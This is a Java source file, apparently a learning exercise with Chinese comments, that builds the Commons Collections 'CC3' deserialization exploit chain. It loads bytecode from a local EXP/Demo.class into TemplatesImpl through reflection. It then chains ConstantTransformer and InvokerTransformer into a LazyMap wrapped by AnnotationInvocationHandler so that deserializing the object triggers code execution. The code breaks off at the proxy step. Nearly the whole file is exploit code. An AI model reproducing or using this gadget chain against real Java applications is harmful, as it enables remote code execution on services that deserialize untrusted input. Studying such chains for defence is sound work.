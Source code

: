 ```plain
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.Paths;
import java.security.AccessController;
import java.security.PrivilegedAction;
import java.util.HashMap;
import java.util.Map;

public class CC3Test {
    public static void main(String[] args) throws Exception{

    TemplatesImpl templates = new TemplatesImpl();
    //_name赋值，否则代码return中止
    Class tc = templates.getClass();
    Field nameField = tc.getDeclaredField("_name");
    nameField.setAccessible(true);
    nameField.set(templates,"aaa");
    //private byte[][] _bytecodes = null;如果为null，报出异常；
    //同时满足这个loader.defineClass(_bytecodes[i]);
    //Class defineClass(final byte[] b) {
    //            return defineClass(null, b, 0, b.length);
    //        }
    Field bytecodeField = tc.getDeclaredField("_bytecodes");
    bytecodeField.setAccessible(true);
    //一维数组满足defineClass参数从而命令执行
    byte[] code = Files.readAllBytes(Paths.get("D://Tomcat/CC/target/classes/EXP/Demo.class"));
    //二维数组满足：
           // private byte[][] _bytecodes = null;如果为null，报出异常；
           //同时满足这个loader.defineClass(_bytecodes[i]);
    byte[][] codes = {code};
    bytecodeField.set(templates,codes);
//    避免_tfactory为空指针而报错
//    TemplatesImpl.TransletClassLoader loader = (TemplatesImpl.TransletClassLoader)
//            AccessController.doPrivileged(new PrivilegedAction() {
//                public Object run() {
//                    return new TemplatesImpl.TransletClassLoader(ObjectFactory.findClassLoader(),_tfactory.getExternalExtensionsMap());
//                }
//            });
    Field tfactoryField = tc.getDeclaredField("_tfactory");
    tfactoryField.setAccessible(true);
    tfactoryField.set(templates,new TransformerFactoryImpl());

//    templates.newTransformer();
    Transformer[] Transformers = new Transformer[]{
            new ConstantTransformer(templates),
            new InvokerTransformer("newTransformer",null,null)
    };
    ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);
//        chainedTransformer.transform(1);
    HashMap<Object,Object> map = new HashMap<>();
    Map<Object,Object> Lazymap = LazyMap.decorate(map,chainedTransformer);


    Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class,Map.class);
    annotationInvocationhdlConstructor.setAccessible(true);
    InvocationHandler h = (InvocationHandler) annotationInvocationhdlConstructor.newInstance(Target.class,Lazymap);
//动态代理
```